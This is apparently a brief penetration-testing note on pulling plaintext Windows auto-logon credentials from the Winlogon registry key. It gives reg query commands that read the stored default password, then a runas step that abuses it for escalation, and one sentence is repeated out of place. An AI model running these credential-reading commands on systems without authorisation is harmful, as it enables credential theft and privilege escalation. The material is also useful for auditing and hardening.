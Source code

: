 Windows can be configured to automatically log in a user after boot. This is commonly used in kiosk systems or enterprise environments. To achieve this, the system stores login credentials—including plaintext passwords—in the registry. If misconfigured or left exposed, attackers with local access can extract these credentials and use them for privilege escalation or lateral movement.

## Target Registry Keys

These values reside under the following registry path:

```powershell
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

## Registry Queries for Auto-Login Configuration
These values can be queried using the following commands:
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon
```
These values can be queried using the following commands:
## Abusing Extracted Credentials

If a password is retrieved, an attacker can impersonate the user:

```powershell
runas /user:Administrator cmd
```